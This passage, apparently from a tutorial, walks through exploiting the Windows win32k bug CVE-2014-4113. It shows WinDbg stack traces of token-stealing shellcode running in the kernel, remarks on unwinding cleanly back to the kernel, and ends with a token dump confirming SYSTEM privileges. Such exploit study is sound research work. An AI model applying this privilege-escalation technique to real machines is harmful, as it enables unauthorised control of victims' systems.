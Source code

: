 <br>

---
# **Finally we jmp to our shellcode, bypassing all the checks above.**
---
<br>

We need to make sure that when we return back to kernel, the stack is cleaned
up properly. So that stack is unwind properly without any crash inside kernel.


```
0: kd> kvn
 # ChildEBP RetAddr  Args to Child
00 93603a24 925b94f3 fffffffb 000001ed 0076f9b4 CVE_2014_4113!TokenStealingShellcodeWin7+0x26 (FPO: [Non-Fpo]) (CONV: stdcall)
01 93603a64 925b95c5 fffffffb 000001ed 0076f9b4 win32k!xxxSendMessageTimeout+0x1ac (FPO: [Non-Fpo])
02 93603a8c 926392fb fffffffb 000001ed 0076f9b4 win32k!xxxSendMessage+0x28 (FPO: [Non-Fpo])
03 93603aec 92638c1f 93603b0c 00000000 0076f9b4 win32k!xxxHandleMenuMessages+0x582 (FPO: [Non-Fpo])
04 93603b38 9263f8f1 fde46848 9271f580 00000000 win32k!xxxMNLoop+0x2c6 (FPO: [Non-Fpo])
05 93603ba0 9263f9dc 0000001c 00000000 ffffd8f0 win32k!xxxTrackPopupMenuEx+0x5cd (FPO: [Non-Fpo])
06 93603c14 82a8e1ea 01c10273 00000000 ffffd8f0 win32k!NtUserTrackPopupMenuEx+0xc3 (FPO: [Non-Fpo])
07 93603c14 77d570b4 01c10273 00000000 ffffd8f0 nt!KiFastCallEntry+0x12a (FPO: [0,3] TrapFrame @ 93603c34)
08 0076f9c8 7786483e 77852243 01c10273 00000000 ntdll!KiFastSystemCallRet (FPO: [0,0,0])
09 0076f9cc 77852243 01c10273 00000000 ffffd8f0 USER32!NtUserTrackPopupMenuEx+0xc (FPO: [6,0,0])
0a 0076f9ec 0102eedd 01c10273 00000000 ffffd8f0 USER32!TrackPopupMenu+0x1b (FPO: [Non-Fpo])
0b 0076fb24 76883c45 00000000 0076fb70 77d737f5 CVE_2014_4113!ExploitThread+0x20d (FPO: [Non-Fpo]) (CONV: stdcall) [j:\dev\temp\exploit\poc\exploitation\source\exploit\cve-2014-4113\cve-2014-4113.c @ 421]
0c 0076fb30 77d737f5 00000000 77b65d12 00000000 kernel32!BaseThreadInitThunk+0xe (FPO: [Non-Fpo])
0d 0076fb70 77d737c8 010299eb 00000000 00000000 ntdll!__RtlUserThreadStart+0x70 (FPO: [Non-Fpo])
0e 0076fb88 00000000 010299eb 00000000 00000000 ntdll!_RtlUserThreadStart+0x1b (FPO: [Non-Fpo])
0: kd> gu
WARNING: Software breakpoints on session addresses can cause bugchecks.
Use hardware execution breakpoints (ba e) if possible.
win32k!xxxSendMessageTimeout+0x1ac:
0008:925b94f3 mov     ecx,dword ptr [ebp+20h]
0: kd> * Return back to the caller in kernel for cleanup and unwinding

 # Chcek our process token, indicating SYSTEM priv.

0: kd> !token
Thread is not impersonating. Using process token...
_EPROCESS 0xffffffff85bc4030, _TOKEN 0x0000000000000000
TS Session ID: 0
User: S-1-5-18
User Groups:
 00 S-1-5-32-544
    Attributes - Default Enabled Owner
 01 S-1-1-0
    Attributes - Mandatory Default Enabled
 02 S-1-5-11
    Attributes - Mandatory Default Enabled
 03 S-1-16-16384
    Attributes - GroupIntegrity GroupIntegrityEnabled
Primary Group: S-1-5-18
Privs:
 02 0x000000002 SeCreateTokenPrivilege            Attributes -
 03 0x000000003 SeAssignPrimaryTokenPrivilege     Attributes -
 04 0x000000004 SeLockMemoryPrivilege             Attributes - Enabled Default
 05 0x000000005 SeIncreaseQuotaPrivilege          Attributes -
 07 0x000000007 SeTcbPrivilege                    Attributes - Enabled Default <--- YAY, SYSTEM !!!
```